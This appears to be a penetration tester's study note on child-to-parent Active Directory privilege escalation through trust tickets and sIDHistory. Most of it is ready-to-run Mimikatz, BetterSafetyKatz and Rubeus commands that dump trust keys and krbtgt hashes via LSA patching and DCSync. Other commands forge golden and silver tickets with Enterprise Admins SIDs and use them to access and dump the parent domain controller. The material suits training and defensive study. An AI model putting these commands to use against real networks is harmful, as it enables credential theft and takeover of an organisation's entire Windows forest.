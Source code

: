 ```yaml
---
tags:
  - privesc
cssclasses:
  - Across-Trust
  - MimiKatz
  - DCSync
  - WMI
---
```

![[child_to_parent_trust_flow.svg]]
1. Request TGT
2. Receive TGT
3. Show TGT, Request TGS for service outside domain
4. Receive inter-realm TGT which is encrypted by the Trust Key.
5. ***Request TGS***
6. Receive TGS
7. Present TGS for access
8. Opt Mutual Auth

We need the trust key to forge `5` and we need to modify sIDHistory to gain higher privileges.

- sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
- sIDHistory can be abused in two ways of escalating privileges within a forest:
	- krbtgt hash of the child
	- Trust Tickets
#### Using Trust Key

```powershell title:"Get trust key from DC"
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

```powershell title:"Get trust key using DCSync"
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\other-forest-account$"'
```

```powershell title:"Get trust key from LSA"
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```batch title:"Forge an inter-realm TGT"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:current.domain.name /sid:see_bloodhound /sids:see_bloodhound /rc4:ntlm_hash /service:krbtgt /target:domain.name /ticket:path_to_ticket.kirbi" "exit"
```

| Options                      | Description                                             |
| ---------------------------- | ------------------------------------------------------- |
| kerberos::golden             | Module name                                             |
| /domain:current_domain.name  | FQDN of the current domain                              |
| /sid:S-1-xxxxx               | SID of the current domain                               |
| /sids:domainsid,objectid     | SID of the enterprise admins group of the parent domain |
| /rc4:ntlm_hash               | RC4 of the trust key                                    |
| /user:Administrator          | User to impersonate                                     |
| /service:krbtgt              | Target service in the parent domain                     |
| /target:domain.name          | FQDN of the parent domain                               |
| /ticket:path_to_ticket.kirbi | Path where ticket is to be saved                        |
Using the trust ticket, we can request a TGS

```batch title:"Request a TGS with the service 'CIFS'"
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/other-forest-dc-fqdn
```

```batch title:"Request a TGS with the service 'HTTP'"
.\Rubeus.exe asktgs /ticket:path_to_tgtticket.kirbi /service:http/forest-dc.domain.name /dc:domain-controller-fqdn /ptt
```

Now, access the DC of the other forest. HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM can be created as well.

```batch title:"Use TGS to access the targeted service"
.\kirbikator.exe lsa .\CIFS.other-forest-dc-fqdn.kirbi
```

Now access the DC of the other forest

```batch title:"Forge a referral TGT"
C:\AD\Tools\Rubeus.exe silver /service:krbtgt/current-domain-name /rc4:trust_key_ntlm /sid:current_domain /sids:S-1-XXXXX-519 /ldap /user:Administrator /nowrap
```

| Options             | Description                                             |
| ------------------- | ------------------------------------------------------- |
| silver              | Name of the module                                      |
| /rc4:ntlm           | NTLM hash of the trust key                              |
| /sid:domainsid      | SID of the current domain                               |
| /sids:S-1-XXXXX-519 | SID of the Enterprise Admins group of the parent domain |
| /ldap               | Retrieve PAC information from the current domain DC     |
| /user:Administrator | Username for which the TGT is generated                 |
| /nowrap             | No newlines in the output                               |

```batch title:"Use the forged ticket"
C:\AD\Tools\Rubeus.exe asktgs /service:servicename/other-forest-dc-fqdn /dc:other-forest-dc-fqdn /ptt /ticket:path_to_forged_ticket.kirbi
```

#### Using krbtgt hash

```powershell title:"Dump lsass"
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```batch title:"Forge ticket using krbtgt hash"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:current.domain.name /sid:current-domain-SID /sids:set SID history to enterprise admins /krbtgt:ntlm_hash /ptt" "exit"
```

```powershell title:"Pass the ticket on any machine of the current domain"
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
```

```batch title:"Demonstrate privileges on parent domain"
ls \\forest-dc.fqdn\C$
gwmi -class win32_operatingsystem -ComputerName forest-dc-fqdn
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:forest-name\krbtgt /domain:forest.name" "exit"
```

